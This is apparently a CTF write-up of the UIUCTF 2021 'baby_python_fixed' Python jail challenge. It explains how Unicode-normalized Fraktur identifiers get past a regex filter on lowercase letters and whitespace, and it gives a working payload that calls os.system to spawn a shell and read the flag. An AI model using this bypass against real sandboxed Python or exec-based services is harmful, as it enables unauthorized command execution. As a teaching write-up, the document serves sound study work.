 # baby_python_fixed - 133 pts, 45 solves

> whoops, I made a typo on the other chal. it's probably impossible, right? Python version is 3.8.10 and flag is at /flag
> 
> nc baby-python-fixed.chal.uiuc.tf 1337
> 
> challenge.py

`baby-python-fixed` was a jail challenge in UIUCTF 2021, where I played with `TeamlessCTF` and got 12th place. I actually got first blood on this challenge!

We start by examining the challenge file:

```python
import re
bad = bool(re.search(r'[a-z\s]', (input := input())))
exec(input) if not bad else print('Input contained bad characters')
exit(bad)
```

Seems pretty minimal. We can see that the challenge checks our input to see if there is any whitespace or lowercase letters, then `exec()`s it if there are none.

The filter is pretty easy to work around, if you know one quirk about python. Python will unicode normalize keywords in code before running, so `𝔭𝔯𝔦𝔫𝔱("Hello World!")` is actually equivalent to `print("Hello World!")` We can leverate this to access arbituary keywords. 

However, we also need to access strings, such as "os" and "sh", which will not be unicode normalized. Luckily, uppercase letters are not blacklisted so we are able to get lowercase strings with `"OS".lower()`.

Putting this all together, we can craft a payload:

```
$ nc baby-python-fixed.chal.uiuc.tf 1337
== proof-of-work: disabled ==
__𝔦𝔪𝔭𝔬𝔯𝔱__("OS".𝔩𝔬𝔴𝔢𝔯()).𝔰𝔶𝔰𝔱𝔢𝔪("SH".𝔩𝔬𝔴𝔢𝔯())
cat /flag
uiuctf{unicode_normalization_is_not_normal_d2f674}
```

Flag: `uiuctf{unicode_normalization_is_not_normal_d2f674}`

